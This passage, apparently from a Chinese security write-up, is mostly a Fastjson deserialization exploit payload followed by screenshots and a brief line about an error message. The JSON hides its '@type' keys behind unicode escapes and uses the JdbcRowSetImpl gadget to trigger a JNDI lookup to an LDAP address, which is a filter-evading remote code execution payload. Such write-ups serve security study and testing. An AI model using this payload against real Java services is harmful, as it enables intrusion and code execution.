```plain
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:6666/Evail","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[![](assets/1708870136-ed3f6f6bf75c57381f5aadf9ee8f4394.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121288.png)​

但是当时的提示如下

[![](assets/1708870136-9aaf339144a6f2d5c667a905a93d3dfd.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121901.png)​
